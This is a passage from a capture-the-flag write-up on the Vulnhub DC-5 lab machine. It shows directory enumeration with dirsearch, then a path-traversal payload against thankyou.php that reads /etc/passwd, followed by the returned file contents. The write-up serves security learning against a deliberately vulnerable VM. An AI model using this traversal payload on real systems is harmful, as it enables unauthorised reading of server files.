 ```bash

  _|. _ _  _  _  _ _|_    v0.4.2                                                         (_||| _) (/_(_|| (_| )  
 
Extensions: php, txt, html | HTTP method: GET | Threads: 30 | Wordlist size: 9901

Output File: /home/emvee/.dirsearch/reports/10.0.2.34/_23-03-27_15-33-00.txt

Error Log: /home/emvee/.dirsearch/logs/errors-23-03-27_15-33-00.log

Target: http://10.0.2.34/

[15:33:00] Starting: 
[15:33:15] 200 -    4KB - /contact.php                                      
[15:33:15] 301 -  184B  - /css  ->  http://10.0.2.34/css/                   
[15:33:18] 200 -    6KB - /faq.php                                          
[15:33:18] 200 -   17B  - /footer.php                                       
[15:33:20] 301 -  184B  - /images  ->  http://10.0.2.34/images/             
[15:33:20] 403 -  570B  - /images/
[15:33:20] 200 -    4KB - /index.php                                        
[15:33:36] 200 -  852B  - /thankyou.php  

Task Completed 
```
Some interesting files are shown such as footer.php and contact.php.
Now open a webbrowser and navigate to the website.

![Image](/assets/img/WriteUp/Vulnhub/DC5/Pasted image 20230327153607.png){: width="700" height="400" }

Let's browse the websit eto see if we can find something useful.

![Image](/assets/img/WriteUp/Vulnhub/DC5/Pasted image 20230327154247.png){: width="700" height="400" }

```
http://10.0.2.34/thankyou.php?firstname=&lastname=&country=australia&subject=
```
What if we change the argument to `file=../../../../etc/passwd` to see if we can include another file.
```
http://10.0.2.34/thankyou.php?file=../../../../etc/passwd
```

![Image](/assets/img/WriteUp/Vulnhub/DC5/Pasted image 20230327153931.png){: width="700" height="400" }

It looks like we have identified a local file inclusion vulnerability ( #LFI #Local-File-Inclusion)

Press `CTRL` + `U` to view the source code. This will help us copy the content  of `/etc/passwd` much easier.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```
